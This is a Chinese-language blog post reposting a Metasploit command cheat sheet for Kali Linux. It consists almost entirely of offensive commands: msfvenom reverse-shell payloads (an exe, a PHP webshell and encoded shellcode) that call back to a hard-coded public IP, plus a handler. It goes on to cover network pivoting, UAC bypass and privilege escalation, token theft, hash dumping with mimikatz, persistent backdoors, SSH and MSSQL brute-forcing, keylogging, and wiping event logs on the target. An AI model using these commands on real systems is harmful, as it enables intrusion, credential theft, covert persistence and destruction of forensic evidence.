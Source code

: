 kali中msf常用命令
2018年02月10日 15:49:01 p0ther 阅读数：1908 标签： kali msf 更多
个人分类： 安全

原文地址：https://www.cnblogs.com/hookjoy/p/7989715.html
Msf的一些常用操作

    payload的几个常用生成

    生成windows下的反弹木马

        msfvenom -p windows/meterpreter/reverse_tcp LHOST=60.205.212.140 LPORT=8888 -f exe > 8888.exe
        // -p < payload > -f < format> -o < path> = >

    监听

        use exploit/multi/handler
        set PAYLOAD windows/meterpreter/reverse_tcp
        set LHOST 172.17.150.246 //阿里云云服务器这里是内网ip
        set LPORT 8888
        exploit -j

    PHP：

        msfvenom -p php/meterpreter_reverse_tcp LHOST=60.205.212.140 LPORT=8888 -f raw > shell.php
        use exploit/multi/handler
        set PAYLOAD php/meterpreter_reverse_tcp
        set LHOST 172.17.150.246
        set LPORT 8888
        exploit -j

    shellcode：

        msfvenom -p windows/meterpreter/reverse_tcp LPORT=1234 LHOST=60.205.212.140 -e x86/shikata_ga_nai -i 11 -f py > 1.py //-e 使用编码 -i 编码次数

    内网代理

    首先需要链接sessions,在此基础下添加路由

        meterpreter > run get_local_subnets //获取网段
        meterpreter > run autoroute -s 172.2.175.0/24 //添加路由
        meterpreter > run autoroute -p //查看路由
        meterpreter > run autoroute -d -s 172.2.175.0 //删除网段
        meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24 //探测该网段下的存活主机。
        meterpreter > background //后台sessions

    提权

    getsystem

        meterpreter > getsystem //直getsystem提权，最常用简单的办法

    使用exp提权

        meterpreter > background //先后台运行会话
        [*] Backgrounding session 1…
        msf > use post/windows/escalate/ms10_073_kbdlayout
        msf > show options
        msf > set session 1 //设置要使用的会话
        msf post(ms10_073_kbdlayout) > exploit
        注意：如果创建了一个system进程，就可以立马sessions 1进入会话，然后ps查看进程，使用migrate pid注入到进程。
        或者直接：
        meterpreter > run post/windows/escalate/ms10_073_kbdlayout

3.盗取令牌

    meterpreter > use incognito //进入这个模块
    meterpreter > list_tokens –u //查看存在的令牌
    meterpreter > impersonate_token NT AUTXXXX\SYSTEM //令牌是DelegationTokens一列，getuid查看，两个斜杠

    注：只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌，一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权限的，建好的账户没有这个权限。使用菜刀（IIS服务器权限）反弹meterpreter是服务型权限。

4.Bypassuac

    msf > use exploit/windows/local/bypassuac //32位与64位一样，其他几个模块也一样
    msf > show options
    msf > set session 4
    msf > run //成功后会返回一个新的session，进入新会话，发现权限没变，使用getsystem即可完成提权

5.Hash

    meterpreter > run post/windows/gather/smart_hashdump //读取hash这种做法最智能，效果最好。

    建立持久后门

    服务启动后门：

        meterpreter > run metsvc -A //再开起一个终端，进入msfconsole
        msf > use exploit/multi/handler //新终端中监听
        msf > set payload windows/metsvc_bind_tcp
        msf > set LPORT 31337
        msf > set RHOST 192.168.0.128
        msf > run //获取到的会话是system权限

    启动项启动后门

        meterpreter > run persistence -X -i 10 -p 6666 -r 192.168.71.105

        // -X 系统开机自启，-i 10 10秒重连一次，-p 监听端口，-r 监听机。直接监听就好了，他自己会链接回来。
        注意到移除 persistence 后门的办法是删除 HKLM\Software\Microsoft\Windows\CurrentVersion\Run\ 中的注册表键和 C:\WINDOWS\TEMP\ 中的 VBScript 文件。
        缺点：容易被杀毒软件杀 。

这两个后门有个弊端，在进程中都会存在服务名称为meterpreter的进程。

    漏洞扫描

    对端口都扫描

        use auxiliary/scanner/portscan/tcp
        show options
        set rhosts 192.168.2.1-255
        set ports 21,22,25,443,445,1433,3306
        set threads 20
        exploit

    mssql开发利用

            对各个ip是否有mssql服务的探测
            use scanner/mssql/mssql_ping //测试MSSQL的存在和信息
            show options
            set rhosts 192.168.2.1-255
            set threads 30
            exploit
            对扫描到的ip进行爆破
            use scanner/mssql/mssql_login //具体配置show options。
            sa权限对其利用
            use admin/mssql/mssql_exec
            set rhost 192.168.2.10
            set password sa
            set CMD cmd.exe /c echo hello
            exploit

    mysql开放利用
    爆破ssh模块：

        use auxiliary/scanner/ssh/ssh_login
        set rhosts 7.7.7.20
        set username root
        set pass_file /root/pass.txt //加载字典，可以收集密码做字典
        set threads 50
        run

    通过nmap扫描基本漏洞：

        msf > nmap –script=vuln 受害靶机ip地址
        msf > nmap –script=mysql-info 192.168.0.4 //扫描mysql数据库信息 版本 等..

最后清除记录

    msf > clearev //删除目标机上的应用程序、系统和安全日志。

一些常用命令

    查看系统命令 sysinfo

    截图 screenshot

    查看是否是虚拟机 run checkvm

    查看运行木马的用户 getuid

    注入到进程 migrate pid //成功会提示successfully

    加载mimikatz模块 meterpreter > load mimikatz meterpreter > wdigest //需要system权限

    获取键盘记录：meterpreter> run post/windows/capture/keylog_recorder #运行键盘记录模块，他自己创建本文。


